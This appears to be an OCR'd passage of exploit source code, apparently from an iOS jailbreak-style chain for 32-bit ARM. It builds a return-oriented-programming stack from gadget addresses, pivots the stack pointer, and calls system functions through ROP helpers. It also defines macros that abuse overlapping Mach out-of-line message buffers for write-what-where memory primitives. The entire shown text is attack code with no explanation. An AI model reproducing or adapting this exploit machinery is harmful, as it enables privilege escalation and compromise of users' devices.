             PUSH = 0x44444444;
            PUSH = m_m_scratch;
            PUSH = pop_r4r7pc; // PC
            PUSH = send_1024_cont; // R4
            PUSH = m_m_scratch; // R7
            PUSH = mov_sp_r4_pop_r4r7pc; // PC
            
            
            PUSH = 0x44444444;
            PUSH = m_m_scratch;
            PUSH = pop_r4r7pc; // PC
            PUSH = send_1024_break; // R4
            PUSH = m_m_scratch; // R7
            PUSH = mov_sp_r4_pop_r4r7pc; // PC
            
            *wcont = (((char*)stack) - ((char*)stackbase)) + segstackbase;
            PUSH = 0x44444444; // R4
            PUSH = m_m_scratch; // R7
            
        }
    }
    [dy setSlide:dy.slide+1]; // enter thumb
    RopCallFunction9Deref1(PUSH, @"__simple_dprintf", 0, SEG_VAR(fd1), 0,SEG_VAR(testmsg),72,0,0,0,0,0,0);
    [dy setSlide:dy.slide-1]; // exit thumb
    RecvMsg(PUSH, 480, oflow_msg); // hang
    RopCallFunction2(PUSH, @"___syscall", SYS_exit, 13);
    
    stack = (uint32_t*)stackz;
    segstackbase = (uint32_t)segstackzbase;
    stackbase = (uint32_t*)stack;
    
    PUSH = 0x44444444; // R4
    PUSH = m_m_scratch; // R7
    
    
#define ReadWriteOverlap() \
RecvMsg(PUSH, overlap_port, tmp_msg);\
LoadIntoR0(PUSH, SEG_VAR(tmp_msg.desc.address));\
StoreR0(PUSH, SEG_VAR(oolmsg_template_2048.desc.address));\
SendMsg(PUSH, overlap_port, oolmsg_template_2048);
    
#define ReadWriteScratchOverlap() \
RecvMsg(PUSH, overlap_port, tmp_msg);\
WriteWhatWhere(PUSH, SEG_VAR(scratch), SEG_VAR(oolmsg_template_2048.desc.address));\
SendMsg(PUSH, overlap_port, oolmsg_template_2048);
    
    
#define ReadWriteOverlapped1024() \
RecvMsg(PUSH, overlapped_port, tmp_msg);\
LoadIntoR0(PUSH, SEG_VAR(tmp_msg.desc.address));\
StoreR0(PUSH, SEG_VAR(oolmsg_template.desc.address));\
SendMsg(PUSH, overlapped_port, oolmsg_template);
    
#define ReadWriteOverlapped512() \
RecvMsg(PUSH, overlapped_port, tmp_msg);\
LoadIntoR0(PUSH, SEG_VAR(tmp_msg.desc.address));\
StoreR0(PUSH, SEG_VAR(oolmsg_template_512.desc.address));\
SendMsg(PUSH, overlapped_port, oolmsg_template_512);
    